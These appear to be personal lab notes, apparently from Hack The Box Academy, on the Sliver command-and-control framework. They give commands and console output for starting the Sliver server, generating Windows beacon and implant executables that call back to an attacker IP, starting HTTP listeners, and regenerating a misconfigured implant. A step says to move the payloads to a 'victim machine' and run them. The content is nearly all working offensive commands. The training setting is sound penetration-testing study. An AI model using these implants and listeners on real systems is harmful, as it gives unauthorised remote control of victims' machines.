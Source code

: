 
### Server initialization examples
- start server on kali
```bash
sliver-server
```
- generate a beacon
```shell-session
generate beacon --http 10.10.16.14:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save <directory>
```
- generate an implant
```shell-session
generate --http 10.10.16.14:8088 --skip-symbols --os windows --arch amd64 --format exe --save <directory>
```
- start listeners
```shell-session
http -L 10.10.16.14 -l 8088 --website delivery
```
```shell-session
http -L 10.10.16.14 -l 9001
```

Need to transfer the implant, beacon, or both to the victim machine and execute the payloads to receive a connection back to the sliver server instance.

#### Making a mistake in the ip address for a implant of some kind and how to regenerate it

- use command `implants` to list all the generated implants
- `implants rm <implant name>` will delete the implant from the list
- regenerate the implant as shown below:
```shell-session
[server] sliver > generate beacon --http 10.10.16.14:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save /home/roger/Documents/HTB/Academy/Sliver/Pivoting

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[!] rpc error: code = Unknown desc = UNIQUE constraint failed: implant_builds.name

[server] sliver > implants

 Name                Implant Type   Template   OS/Arch             Format   Command & Control              Debug 
=================== ============== ========== =============== ============ ============================== =======
 ACCEPTED_SNOWPLOW   session        sliver     windows/amd64   EXECUTABLE   [1] https://10.10.16.14        false 
 BOLD_WHIP           session        sliver     windows/amd64   EXECUTABLE   [1] https://10.10.16.14:8088   false 
 http-beacon-9001    beacon         sliver     windows/amd64   EXECUTABLE   [1] https://10.10.14.62:9001   false 

[server] sliver > help implants

List implant builds

Usage:
======
  implants [flags]

Flags:
======
  -a, --arch          string    filter builds by cpu architecture
  -f, --format        string    filter builds by artifact format
```